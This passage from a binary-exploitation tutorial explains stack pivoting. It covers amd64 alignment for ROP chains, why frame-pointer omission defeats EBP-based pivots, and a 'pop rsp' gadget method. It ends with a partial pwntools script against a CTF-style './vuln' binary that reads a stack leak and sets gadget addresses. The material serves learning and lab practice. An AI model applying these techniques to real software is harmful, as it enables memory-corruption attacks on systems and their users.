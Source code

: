 > amd64 alignment tip: System V ABI requires 16-byte stack alignment at call sites. If your chain calls functions like `system`, add an alignment gadget (e.g., `ret`, or `sub rsp, 8 ; ret`) before the call to maintain alignment and avoid `movaps` crashes.

## EBP might not be used

As [**explained in this post**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#off-by-one-1), if a binary is compiled with some optimizations or with frame-pointer omission, the **EBP/RBP never controls ESP/RSP**. Therefore, any exploit working by controlling EBP/RBP will fail because the prologue/epilogue doesn’t restore from the frame pointer.

- Not optimized / frame pointer used:

```bash
push   %ebp         # save ebp
mov    %esp,%ebp    # set new ebp
sub    $0x100,%esp  # increase stack size
.
.
.
leave               # restore ebp (leave == mov %ebp, %esp; pop %ebp)
ret                 # return
```

- Optimized / frame pointer omitted:

```bash
push   %ebx         # save callee-saved register
sub    $0x100,%esp  # increase stack size
.
.
.
add    $0x10c,%esp  # reduce stack size
pop    %ebx         # restore
ret                 # return
```

On amd64 you’ll often see `pop rbp ; ret` instead of `leave ; ret`, but if the frame pointer is omitted entirely then there’s no `rbp`-based epilogue to pivot through.

## Other ways to control RSP

### `pop rsp` gadget

[**In this page**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp) you can find an example using this technique. For that challenge it was needed to call a function with 2 specific arguments, and there was a **`pop rsp` gadget** and there is a **leak from the stack**:

```python
# Code from https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp
# This version has added comments

from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16) # Leak from the stack indicating where is the input of the user
log.success(f'Buffer: {hex(buffer)}')

POP_CHAIN = 0x401225       # pop all of: RSP, R13, R14, R15, ret
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229     # pop RSI and R15

# The payload starts
```